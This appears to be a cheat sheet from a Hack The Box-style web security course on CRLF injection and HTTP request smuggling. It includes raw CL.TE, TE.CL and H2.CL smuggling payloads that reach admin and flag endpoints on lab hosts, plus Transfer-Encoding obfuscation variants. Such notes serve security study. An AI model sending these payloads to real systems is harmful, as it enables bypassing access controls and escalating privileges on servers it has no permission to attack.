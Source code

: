 ## CRLF Injection

| Description | Character | ASCII (Decimal) | ASCII (Hex) | URL Encoded |
| --- | --- | --- | --- | --- |
| Carriage Return | `\r` | `13` | `0x0D` | `%0D` |
| Line Feed | `\n` | `10` | `0x0A` | `%0A` |

## Request Smuggling

#### Content-Length

- request body length specified in the `Content-Length` header

Code: http

```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

param1=HelloWorld&param2=Test
```

#### Chunked Encoding

- `Transfer-Encoding` header set to `chunked` to specify chunked encoding
- Each chunk contains the chunk length in hex followed by a newline and the chunk data
- Request terminated with empty chunk `0`

Code: http

```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
param1=HelloWorld&param2=Test
0
```

## CL.TE Vulnerability

- reverse proxy uses the `Content-Length` header, web server uses the `Transfer-Encoding` header

Code: http

```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```

## TE.CL Vulnerability

- reverse proxy uses the `Transfer-Encoding` header, web server uses the `Content-Length` header

Code: http

```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb

0
```

## TE.TE Vulnerability

- obfuscate `Transfer-Encoding` header from one of the systems to provoke a CL.TE or TE.CL vulnerability

| Description | Header |
| --- | --- |
| Substring match | `Transfer-Encoding: testchunked` |
| Space in Header name | `Transfer-Encoding : chunked` |
| Horizontal Tab Separator | `Transfer-Encoding:[\x09]chunked` |
| Vertical Tab Separator | `Transfer-Encoding:[\x0b]chunked` |
| Leading space | ` Transfer-Encoding: chunked` |

## HTTP/2 Downgrading

- HTTP/2 is a binary protocol
- HTTP/2 uses pseudo-headers:
- `:method`: the HTTP method
- `:scheme`: the protocol scheme (typically `http` or `https`)
- `:authority`: similar to the HTTP `Host` header
- `:path`: the requested path including the query string
- HTTP/2 downgrading occurs when the reverse proxy rewrites an HTTP/2 request from the client to an HTTP/1.1 request which is forwarded to the web server

## H2.CL vulnerability

- Injection of a `Content-Length` header which is used by the web server after the request was rewritten by the reverse proxy

Code: http

```http
POST /index.php HTTP/2
Host: http2.htb
Content-Length: 0

POST /index.php?reveal_flag=1 HTTP/1.1
Foo: 
```